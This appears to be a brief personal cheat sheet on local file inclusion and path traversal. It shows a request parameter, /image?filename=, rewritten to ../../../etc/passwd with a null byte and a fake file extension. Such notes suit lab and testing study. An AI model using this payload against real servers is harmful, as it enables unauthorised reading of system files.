 # LFI
### Directory traversal | File path traversal
Replace LFI payloads:
../../../etc/passwd%00.png
to
../../../etc/passwd%00index.html
EJP:
```bash
/image?filename=25.jpg
```

```bash
/image?filename=../../../etc/passwd%00.png
```
